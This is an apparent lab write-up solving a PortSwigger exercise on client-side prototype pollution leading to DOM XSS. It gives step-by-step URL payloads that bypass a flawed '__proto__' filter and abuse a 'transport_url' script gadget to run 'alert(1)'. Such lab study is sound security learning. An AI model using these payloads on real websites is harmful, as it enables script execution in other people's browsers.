






# Client-side prototype pollution via flawed sanitization

## This lab is vulnerable to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) via client-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution). Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
    
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
    
3. Combine these to call `alert()`

______________________________________________

step 1

add `/?__proto__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new nothing changes
it means You've not found a prototype pollution source

step 2

go to source and look at the js file 

step 3

`/?__pro__proto__to__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new property added `evilProperty: 'payload'`
it means You've successfully found a prototype pollution source.

step 4

`?__pro__proto__to__[transport_url]=payload`
you will notice in elements tab `<script>` element has been rendered on the page

step 5

add payload `?__pro__proto__to__[transport_url]=data:,alert(1);//` into url 
you will get alert pop up and lab will solved

